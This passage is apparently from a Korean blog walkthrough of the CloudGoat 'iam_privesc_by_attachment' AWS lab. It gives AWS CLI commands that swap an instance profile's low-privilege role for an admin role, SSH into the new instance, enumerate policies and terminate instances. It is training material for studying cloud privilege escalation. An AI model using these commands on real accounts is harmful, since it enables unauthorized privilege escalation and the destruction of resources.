                "State": "pending",
                "HttpTokens": "optional",
                "HttpPutResponseHopLimit": 1,
                "HttpEndpoint": "enabled"
            },
            "EnclaveOptions": {
                "Enabled": false
            }
        }
    ],
    "OwnerId": "712987748923",
    "ReservationId": "r-04495e19ef68a6678"
}
```

### 최고 관리자 IAM Instance 프로필을 새로운 EC2 Instance로 변경

- 앞서 새로운 EC2 Instance를 생성했습니다. 인스턴스 Rule `cg-ec2-meek-instance-profile-/cloud-goat-id` 은 여전히 권한이 낮은 IAM Rule이기 때문에 이를 제거하고 인스턴스 프로파일에 IAM 역할을 추가하였습니다.

```json
aws iam remove-role-from-instance-profile \
    --instance-profile-name cg-ec2-meek-instance-profile-iam_privesc_by_attachment_cgidmbi301d8zu \
    --role-name cg-ec2-meek-role-iam_privesc_by_attachment_cgidmbi301d8zu --profile kerrigan

aws iam add-role-to-instance-profile \
    --instance-profile-name cg-ec2-meek-instance-profile-iam_privesc_by_attachment_cgidmbi301d8zu \
    --role-name cg-ec2-mighty-role-iam_privesc_by_attachment_cgidmbi301d8zu --profile kerrigan

aws iam remove-role-from-instance-profile \
    --instance-profile-name cg-ec2-meek-instance-profile-<CLOUD_GOAT_ID> \
    --role-name cg-ec2-meek-role-<CLOUD_GOAT_ID> --profile kerrigan

aws iam add-role-to-instance-profile \
    --instance-profile-name cg-ec2-meek-instance-profile-<CLOUD_GOAT_ID> \
    --role-name cg-ec2-mighty-role-<CLOUD_GOAT_ID> --profile kerrigan

"InstanceProfileName": "cg-ec2-meek-instance-profile-iam_privesc_by_attachment_cgidmbi301d8zu",
"RoleName": "cg-ec2-meek-role-iam_privesc_by_attachment_cgidmbi301d8zu",

cg-ec2-mighty-role-iam_privesc_by_attachment_cgidmbi301d8zu
```

### SSH를 통해 새로운 EC2에 액세스

- 앞서 새로 생성된 EC2 인스턴스에 SSH로 접속해 보겠습니다. 미리 만들어 두었던 SSH 개인 키에 대한 권한 을 변경해주었습니다.



- 새로 생성된 EC2 인스턴스의 공용 IP 대역을 query를 조회하겠습니다.

```json
aws ec2 describe-instances \
 --query "Reservations[*].Instances[*].PublicIpAddress" \
 --output text \
 --profile kerrigan
```



- 3개 가 출력된 것은 기존에 만들어 두었던 인스턴스가 걸린 정보이고 새로운 정보는 큐형태로 마지막 `3.90.208.120` IP 대역입니다.

```json
ssh -i fake-ec2.pem ubuntu@3.90.208.120
```



- 성공 적으로 연결이 완료되었다면 `cg-ec2-mighty-role-/cloud goat id/` 연결된 IAM Rule 및 정책을 열거하겠습니다.
- SSH 연결한 EC2 인스턴스에 AWS CLI를 설치 합니다.

```json
aws iam list-policies --query "Policies[?starts_with(PolicyName, 'cg')]"

 aws iam get-policy-version \
 --policy-arn "arn:aws:iam::ACCOUNT-ID:policy/cg-ec2-mighty-policy"  \
 --version-id "v1"
```

- 해당 서버에서 EC2 인스턴스 관리자 권한을 획득한 것을 확인할 수 있습니다.

```json
aws ec2 describe-instances --region us-east-1
 aws ec2 terminate-instances --instance-ids <instanceId> --region us-east-1
```

```toc
```